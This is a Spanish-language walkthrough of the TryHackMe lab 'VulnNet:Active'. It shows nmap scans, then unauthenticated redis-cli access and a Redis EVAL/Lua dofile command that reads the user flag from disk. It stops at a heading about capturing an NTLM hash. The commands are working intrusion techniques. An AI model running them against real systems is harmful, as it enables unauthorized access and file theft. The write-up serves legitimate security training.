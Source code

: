 ## TryHackMe  <> VulnNet:Active

![image](https://github.com/Esevka/CTF/assets/139042999/c8b2b883-92a5-4ef7-9caf-9ef5029519b8)

Enlace Maquina: https://tryhackme.com/room/vulnnetactive

Enunciado : 

  - Obtener acceso completo al sistema y comprometer dominio.
  - Conseguir Flags
---

## Escaneo de puertos (NMAP).

-Buscamos puertos abiertos en en la maquina victima.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/VulnNetActive/nmap]
    └─# nmap -p- -open -sS --min-rate 5000 -n -Pn -vvv 10.10.12.222 -oG open_ports                                                                              
    Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-20 06:32 CEST
    
    PORT      STATE SERVICE      REASON
    53/tcp    open  domain       syn-ack ttl 127
    135/tcp   open  msrpc        syn-ack ttl 127
    139/tcp   open  netbios-ssn  syn-ack ttl 127
    445/tcp   open  microsoft-ds syn-ack ttl 127
    464/tcp   open  kpasswd5     syn-ack ttl 127
    6379/tcp  open  redis        syn-ack ttl 127
    9389/tcp  open  adws         syn-ack ttl 127
    49665/tcp open  unknown      syn-ack ttl 127
    49668/tcp open  unknown      syn-ack ttl 127
    49669/tcp open  unknown      syn-ack ttl 127
    49670/tcp open  unknown      syn-ack ttl 127
    49684/tcp open  unknown      syn-ack ttl 127
    49698/tcp open  unknown      syn-ack ttl 127

  -Extraemos los puertos de la captura anterior para lanzarles unos scripts basicos de reconocimiento.

  Utilizamos un Script en bash simple pero de gran ayuda. Script-->  https://github.com/Esevka/CTF/tree/main/Bash

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/VulnNetActive/nmap]
    └─# list_port open_ports              
    
    [+]Puertos Disponibles --> (Copiados en el Clipboard)
    
    53,135,139,445,464,6379,9389,49665,49668,49669,49670,49684,49698


  -Lanzamos scripts basicos de reconocimiento sobre los puertos abiertos.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/VulnNetActive/nmap]
    └─# nmap -p 53,135,139,445,464,6379,9389,49665,49668,49669,49670,49684,49698 -sCV -n -Pn 10.10.12.222 -vvv -oN info_ports
    
    PORT      STATE SERVICE       REASON          VERSION
    53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
    135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds? syn-ack ttl 127
    464/tcp   open  kpasswd5?     syn-ack ttl 127
    6379/tcp  open  redis         syn-ack ttl 127 Redis key-value store 2.8.2402
    9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
    49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49669/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
    49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49684/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49698/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
---
## Analizamos la informacion obtenida sobre los puertos.

La informacion obtenida sobre los puertos es un poco escueta, pero aun asi hay un puerto que llama la atencion.

--Puerto 6379 (Redis)

    Que es Redis?
    
    Redis es una base de datos en memoria de código abierto y un almacén de datos de tipo clave-valor.
    
    Esto significa que los ejemplos de uso de Redis no se parecerán a las tablas de una base de datos relacional típica,
    sino que se centrarán en cómo almacenar y recuperar datos utilizando claves.

    Redis es eficiente en la gestión de datos clave-valor y es especialmente útil para almacenar datos temporales, configuraciones, caché 
    y en situaciones donde se requiere alta velocidad y baja latencia.

  Info--> Redis Pentesting[+] https://exploit-notes.hdks.org/exploit/database/redis-pentesting/

  1)Conectamos a la BD sin credenciales a ver si podemos obtener algo.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/VulnNetActive/nmap]
    └─# redis-cli -h 10.10.12.222
    10.10.12.222:6379> 

  2)Listamos el número de claves que continenen las bases de datos, no hay nada.
    
    10.10.12.222:6379[3]> info keyspace
    # Keyspace

  3)Listamos todas las configuraciones y sus valores actuales.
  
    102) "no"
    103) "dir"
    104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"  ---> INTERESANTE
    105) "maxmemory-policy"

  De la linea 104 deducimos que --> enterprise-security <-- es un usuario local del sistema, por lo que ya tenemos un usuario del sistema.

    Info: Redis mediante el comando EVAL nos permite ejecutar scripts en Lua los cuales deben ser pasados como cadena(String).


  4)Sabiendo esto podriamos leer la flag de usuario.(La ip cambia hemos tenido que reiniciar la maquina.)

    10.10.240.193:6379> Eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0
    (error) ERR Error running script (call to f_ce5d85ea1418770097e56c1b605053114cc3ff2e): @user_script:1: C:\Users\enterprise-security\Desktop\user.txt:1: malformed number near 
    '3eb176aee96---------0bc93580b291e'

  5)Capturamos el Hash NTLM del usuario.
    
  



    


    
    




  






  

  


